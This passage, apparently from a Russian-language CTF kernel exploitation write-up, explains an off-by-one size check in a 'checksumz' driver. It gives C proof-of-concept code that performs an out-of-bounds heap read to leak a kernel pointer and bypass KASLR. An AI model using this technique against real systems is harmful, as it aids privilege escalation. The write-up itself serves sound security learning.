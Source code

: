 Внимательно смотря на проверку размера можно увидеть, что она реализована не совсем корректно. Поле `buffer->read` инициализируется значением 0 и по логике чтения туда записывается количество считанных байт в буффер пользователя. Максимально за раз пользователь может считать 256 байт. Если пользователь осуществит два чтения по 256 байт, то поле `buffer->read` будет равно 512 и проверка размера не пройдёт.

Но если пользователь считает 256 байт в первый раз и 255 во второй, то поле `buffer->read` будет равно 511 и тогда мы сможем считать ещё раз 256 байт и таким образом считать больше данных, чем предусмотрено и получим какие-то данные с кучи. Для того, чтобы понять что мы будем читать достаточно взглянуть на структуру `checksum_buffer`:
```c
struct checksum_buffer {
	loff_t pos;
	char state[512];
	size_t size;
	size_t read;
	char* name;
	uint32_t s1;
	uint32_t s2;
};
```

Мы читаем от начала поля `state`, это значит, что мы сможем получить указатель `name` и ещё данные с кучи. Это потенциально даёт нам утечку с помощью которой можно обойти KASLR. Попробуем проверить нашу гипотезу и прочитаем данные три раза из драйвера описанным ранее способом.

```c
void hexdump(uint8_t* buffer, size_t size) {
    for (int i = 0; i < size; i++) {
        if (i % 16 == 0 && i != 0) {
            puts("");
        }
        printf("%02x ", buffer[i]);
    }
};

uint64_t try_break_kaslr(int fd) {
    if (fd == INVALID_FD) { 
        return -1;
    }

    uint8_t* buffer = (uint8_t*) calloc(BUF_SIZE, sizeof(uint8_t));
    read(fd, buffer, BUF_SIZE); // skip
    read(fd, buffer, BUF_SIZE - 1); // skip

    memset(buffer, 0x0, BUF_SIZE);
    read(fd, buffer, 256); // leak

    hexdump(buffer, 256);
};

int main() {
	int fd = open("/dev/checksumz", O_RDWR);
	try_break_kaslr(fd);
}
```
